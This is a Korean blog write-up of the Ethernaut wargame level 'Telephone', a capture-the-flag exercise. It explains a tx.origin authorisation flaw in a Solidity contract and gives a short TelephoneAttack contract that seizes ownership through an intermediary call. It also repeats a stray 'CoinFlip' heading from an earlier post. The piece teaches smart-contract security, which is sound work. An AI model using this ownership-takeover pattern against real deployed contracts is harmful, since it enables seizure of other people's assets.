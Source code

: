 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 4) Telephone  
date: '2022-01-07 20:26:00'
author: 한성원
tags: ethernaut Telephone vulnerability
categories: 취약점분석
---
```



# 👋 1. CoinFlip
__Difficulty 1/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Ownership 뺐어오기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

    //owner의 주소
    address public owner;

    //constructor
    constructor() public {
        //setting owner as deployer
        owner = msg.sender;
    }

    //owner를 바꿀 수 있는 function
    function changeOwner(address _owner) public {
        // 만약 tx.origin과 msg.sender이 다르면 owner를 parameter의 주소로 바꿀 수 있다.
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제에서 우리는 ownership을 뺐어와야 한다.

그리고 우리는 코드분석에서 봤듯이 ownership을 가져올 수 있는 방법은 changeOwner()를 call하여 조건을 만족시키면 된다.

여기서 우리가 이해 해야할 점은 tx.origin과 msg.sender의 차이다.

tx.origin과 msg.sender의 차이는 __[이 글](https://holyhansss.github.io/vulnerability/tx.origin/tx_origin/)__ 에서 찾아볼수 있다.

만약 그래도 이해가 안된다면 서칭 고고!!

이해가 되었다면 이제 어떻게 풀지 감이 올 것이라고 생각한다.

__바로 Telephone.changeOwner()를 call하는 contract를 하나 더 만들어서 실행시키면 된다!__


주석을 통해 TelephoneAttack contract를 같이 분석 해보자!
최대한 간단하게 만들어보았다.
```solidity
contract TelephoneAttack {
    //Telephone contract의 address가 들어갈 곳
    address telephone;

    //constructor: TelephoneAttack의 주소를 parameter로 사용한다.
    constructor(address _telephone) public {
        telephone  = _telephone;
    }
    
    //Telephone contract를 공격하는 function
    //실제 공격해서 돈을 빼온다고 생각해 payable을 넣었다!
    function attack() public payable{
        //Telephone contract의 changeOwner를 parameter(msg.sender)와 함께 call한다.
        Telephone(telephone).changeOwner(msg.sender);
    }
}
```

Remix에서 Injected Web3 선택해 위 contract를 deploy하고 attack()을 누르면 ownership을 가져올 수 있다. 

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -
## 마무리
tx.origin은 Ethereum official Docs에서도 사용하지 않을 것을 권장하고 있다. 또한 tx.origin 대신 msg.sender를 사용하기를 권장한다. tx.origin의 기능을 대부분 msg.sender가 대신 처리할 수 있기 때문이다. 정말정말정말정말 tx.origin을 사용해야하는 경우가 아니라면 그냥 안전하게 msg.sender를 사용하자!

그냥 나의 느낌인데 취약점을 공부하고 풀어보니 어떻게 풀지 감이 잡힌다. ethernaut이후에 직접 test과 다른 contract의 취약점을 직접 찾아보고 싶다. ~~찾아서 알려주면 내 경력+1 ㅋㅋㅋ~~
- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- tx.origin 취약점: https://holyhansss.github.io/vulnerability/tx.origin/tx_origin/

```toc

```